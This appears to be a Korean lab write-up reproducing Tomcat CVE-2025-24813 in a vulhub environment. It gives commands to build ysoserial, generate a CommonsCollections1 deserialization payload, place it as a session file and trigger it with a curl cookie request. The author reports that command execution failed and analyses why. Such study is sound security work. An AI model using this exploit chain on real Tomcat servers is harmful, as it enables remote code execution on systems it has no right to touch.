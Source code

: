 - Java 직렬화된 payload 객체를 만들어서 업로드해야 함
- ysoserialdmf 이용 : 악성 Java 객체 자동 생성기
- https://github.com/frohoff/ysoserial.git

```html
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package
```

⇒ 성공하면 `target/ysoserial-*.jar` 이 생성됨

![image.png](attachment:af0ea501-edef-429e-83a5-58d9492575cd:image.png)

### 실제 명령 실행용 payload && 트리거

```bash
java -jar target/ysoserial-*.jar CommonsCollections1 "touch /tmp/hacked_by_deser" > /usr/local/tomcat/work/Catalina/localhost/ROOT/.deserialize.session
curl -v http://localhost:8080/ -H "Cookie: JSESSIONID=.deserialize"
```

![image.png](attachment:8e6e47fa-f922-4cef-b6bb-35ad3429faf4:image.png)

`ls /tmp/` 로 결과 확인

- 처음 생성한 `.deserialize.session` 과 충돌이 발생할 수 있으니 제거 후 다시 생성을 추천

## 실패할 수 도 있음

| 단계 | 결과 |
| --- | --- |
| ysoserial payload 생성 | ✅ 성공 |
| `.session` 파일 저장 | ✅ 성공 |
| `curl`로 JSESSIONID 트리거 | ✅ 성공 (200 OK) |
| 웹 루트 또는 `/tmp/`에 파일 생성 명령 실행 | ❌ 실패 (결과 없음) |

## 원인 분석

이럴 때 가장 흔한 이유는 다음 중 하나야:

1. **Tomcat이 `Runtime.exec()` 또는 `ProcessBuilder` 같은 기능을 차단함**
2. Java 버전의 보안 정책 혹은 컨테이너 내 권한 문제로 **명령이 무시됨**
3. 명령은 실행됐지만 **출력 또는 파일이 남지 않게 설계된 환경**

- 역직렬화 트리거 후, 특정 gadget (`CommonsCollections1`)을 활용해 명령 실행을 시도하였으나, 컨테이너 내 보안 설정 또는 JDK의 제한으로 인해 실제 명령 실행 효과(파일 생성)는 관찰되지 않았다.
- 향후 보안 점검 시, 이러한 **역직렬화 트리거 자체**만으로도 **잠재적 RCE 위협**이 존재한다는 점을 고려해야 한다.

본 보고서는 `vulhub` 기반으로 구성한 Tomcat CVE-2025-24813 환경에서 PoC 실험을 수행하고, 취약점 유효성과 실행 결과를 기반으로 작성되었습니다.

> GitHub 실습 URL: https://github.com/yourid/kr-vulhub/tree/main/tomcat/CVE-2025-24813
>
